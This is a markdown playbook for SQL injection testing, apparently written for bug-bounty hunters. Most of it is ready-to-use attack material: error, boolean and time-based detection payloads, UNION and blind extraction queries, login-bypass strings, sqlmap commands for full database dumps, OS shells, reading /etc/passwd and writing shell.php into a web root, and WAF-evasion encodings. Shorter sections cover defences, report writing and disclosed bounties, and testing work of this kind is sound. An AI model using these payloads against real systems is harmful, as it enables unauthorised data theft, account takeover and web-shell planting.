

# SQL Injection — Manual & Automated

## When to Use
- When testing web applications that interact with SQL databases
- When user input is reflected in database queries (search, login, filters, sorting)
- When you see database error messages in application responses
- When testing API endpoints that accept structured query parameters
- When login forms don't use parameterized queries

## Prerequisites
- Burp Suite Pro/Community for request interception
- `sqlmap` for automated injection and extraction
- Understanding of SQL syntax (MySQL, PostgreSQL, MSSQL, Oracle)
- Target must use a SQL database backend

## Workflow

### Phase 1: Detection & Fingerprinting

```bash
# Step 1: Inject special chars to trigger errors
# Single quote (most common)
https://target.com/product?id=1'

# Double quote
https://target.com/product?id=1"

# Semicolon (query stacking)
https://target.com/product?id=1;

# Comment markers
https://target.com/product?id=1--
https://target.com/product?id=1#

# Step 2: Boolean-based detection
# True condition (should return normal page):
https://target.com/product?id=1 AND 1=1
# False condition (should return different/empty page):
https://target.com/product?id=1 AND 1=2

# If responses differ → SQL injection confirmed

# Step 3: Time-based detection (for blind SQLi)
# MySQL:
https://target.com/product?id=1 AND SLEEP(5)--
# MSSQL:
https://target.com/product?id=1; WAITFOR DELAY '0:0:5'--
# PostgreSQL:
https://target.com/product?id=1; SELECT pg_sleep(5)--

# Step 4: Database fingerprinting
# MySQL:  SELECT @@version
# MSSQL:  SELECT @@version
# Oracle: SELECT banner FROM v$version
# PostgreSQL: SELECT version()
```

### Phase 2: UNION-based Extraction

```sql
-- Step 1: Find number of columns
ORDER BY 1--    -- OK
ORDER BY 2--    -- OK
ORDER BY 3--    -- ERROR → 2 columns

-- Step 2: Find displayable columns
UNION SELECT NULL,NULL--
UNION SELECT 'a',NULL--
UNION SELECT NULL,'a'--

-- Step 3: Extract database info
-- MySQL:
UNION SELECT @@version, database()--
UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema=database()--
UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
UNION SELECT username,password FROM users--

-- PostgreSQL:
UNION SELECT version(), current_database()--
UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public'--

-- MSSQL:
UNION SELECT @@version, DB_NAME()--
UNION SELECT name,NULL FROM sysobjects WHERE xtype='U'--

-- Oracle:
UNION SELECT banner,NULL FROM v$version--
UNION SELECT table_name,NULL FROM all_tables--
```

### Phase 3: Blind Extraction

```sql
-- Boolean-based blind (extract data char by char)
-- Extract database name character 1:
AND (SELECT SUBSTRING(database(),1,1))='a'--
AND (SELECT SUBSTRING(database(),1,1))='b'--
-- ... continue until response changes

-- Binary search (faster):
AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 64--   -- m or higher?
AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 96--   -- a-z range?
AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 112--  -- p or higher?
-- Narrow down to exact character

-- Time-based blind:
AND IF((SELECT SUBSTRING(database(),1,1))='a', SLEEP(3), 0)--
AND IF((SELECT SUBSTRING(database(),1,1))='s', SLEEP(3), 0)--
```

### Phase 4: Authentication Bypass

```sql
-- Classic login bypass
-- Username field:
admin'--
admin'/*
' OR '1'='1
' OR '1'='1'--
') OR ('1'='1
admin' OR '1'='1'#

-- Password field:
' OR '1'='1'--
anything' OR '1'='1'--

-- Combined (username: admin'--, password: anything)
-- Query becomes: SELECT * FROM users WHERE username='admin'--' AND password='anything'
-- Password check is commented out

-- Advanced bypass:
' UNION SELECT 1,'admin','password_hash' FROM dual--
```

### Phase 5: Automated Exploitation with sqlmap

```bash
# Basic scan
sqlmap -u "https://target.com/product?id=1" --batch --dbs

# With authentication
sqlmap -u "https://target.com/product?id=1" \
  --cookie="session=abc123" \
  --batch --dbs

# From Burp request file (most reliable)
sqlmap -r request.txt --batch --dbs

# Full database dump
sqlmap -r request.txt --batch -D target_db --tables
sqlmap -r request.txt --batch -D target_db -T users --dump

# WAF bypass
sqlmap -r request.txt --batch --tamper=space2comment,between,randomcase \
  --random-agent --delay=2

# OS shell (if stacked queries + file privileges)
sqlmap -r request.txt --batch --os-shell

# File read/write
sqlmap -r request.txt --batch --file-read="/etc/passwd"
sqlmap -r request.txt --batch --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# POST parameter
sqlmap -u "https://target.com/login" \
  --data="username=admin&password=test" \
  -p username --batch --dbs

# Increase risk and level for thorough testing
sqlmap -r request.txt --batch --level=5 --risk=3 --dbs
```

### Phase 6: WAF Bypass Techniques

```sql
-- Space alternatives
/**/SELECT/**/username/**/FROM/**/users
SELECT%09username%09FROM%09users   -- Tab
SELECT%0Ausername%0AFROM%0Ausers   -- Newline

-- Case manipulation
SeLeCt UsErNaMe FrOm UsErS

-- Double encoding
%2527 → %27 → '

-- Null bytes
%00' OR 1=1--

-- Comment injection
UN/**/ION SE/**/LECT

-- HPP (HTTP Parameter Pollution)
?id=1&id=UNION&id=SELECT

-- Chunk transfer encoding (in POST body)

-- Using sqlmap tampers:
sqlmap -r r.txt --tamper=apostrophemask,between,charencode,equaltolike,greatest,halfversionedmorekeywords,modsecurityversioned,percentage,randomcase,space2comment,space2dash,space2mssqlblank,space2mysqldash,unionalltounion,unmagicquotes
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection
- **Parameterized queries**: Use prepared statements — NEVER concatenate user input into SQL
- **WAF rules**: Detect common SQLi patterns (UNION SELECT, OR 1=1, SLEEP(), etc.)
- **Input validation**: Whitelist expected characters (numeric IDs should only accept digits)
- **Database monitoring**: Alert on unusual queries, mass data extraction, or schema enumeration
- **Least privilege**: Database user should have minimum required permissions
- **Error handling**: Never expose raw database errors to users

## Key Concepts
| Concept | Description |
|---------|-------------|
| UNION injection | Combining attacker's SELECT with original query to extract data |
| Error-based | Forcing database errors that reveal data in error messages |
| Boolean blind | Inferring data through true/false application behavior differences |
| Time-based blind | Inferring data through delayed response times |
| Out-of-band | Exfiltrating data via DNS or HTTP to attacker-controlled server |
| Stacked queries | Executing multiple SQL statements separated by semicolons |
| Second-order SQLi | Payload stored first, then executed when used in a different query |

## Output Format
```
SQL Injection Report
====================
Title: UNION-based SQL Injection in Product Search
Severity: CRITICAL (CVSS 9.8)
Endpoint: GET /api/products?category=
Parameter: category
DBMS: MySQL 8.0.32

Extracted Data:
- Database: production_db
- Tables: users, orders, payments, sessions
- Users table: 45,000 records (username, email, password_hash, role)
- Payment table: Credit card data (PCI violation)

Impact:
- Full database compromise
- PII/PCI data exposure for 45,000 users
- Potential for OS command execution via INTO OUTFILE
- Authentication bypass confirmed

Remediation:
1. Use parameterized queries / prepared statements
2. Implement input validation (whitelist allowed characters)
3. Apply principle of least privilege to database users
4. Deploy WAF rules for SQL injection detection
5. Remove verbose error messages from production
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (SQL Injection)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Security Company (HackerOne)** | $6,400 | (Undisclosed) | Critical SQLi on cloud subdomain — full query manipulation | 2023 |
| **Django (IBB)** | $4,263 | (Undisclosed) | CVE-2024-53908: SQLi in `HasKey` lookup on Oracle databases | 2024 |
| **Django (IBB)** | $4,263 | (Undisclosed) | CVE-2024-42005: SQLi in `QuerySet.values()` with JSONField column aliases | 2024 |
| **HackerOne avg** | ~$1,074 | (Estimated ~1,213 reports in 2025) | Various SQLi techniques across all programs | 2025 |

**Key Lesson**: Django framework-level SQLi bugs (CVE-2024-53908, CVE-2024-42005) prove that
even "secure" frameworks have injection points — especially in ORM edge cases like `HasKey` 
lookups on Oracle or `JSONField` column aliases. These are NOT generic `' OR 1=1--` payloads.

**What separates $6.4K from $500:**
- $6.4K: Demonstrated full data extraction, showed the schema, proved RCE path
- $500: Boolean-based blind SQLi with no data extraction demonstrated
- **Always extract at least one sensitive record and show the exploitation path**

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- OWASP: [SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- PortSwigger: [SQL Injection Labs](https://portswigger.net/web-security/sql-injection)
- sqlmap: [Official Documentation](https://sqlmap.org/)
- PayloadsAllTheThings: [SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
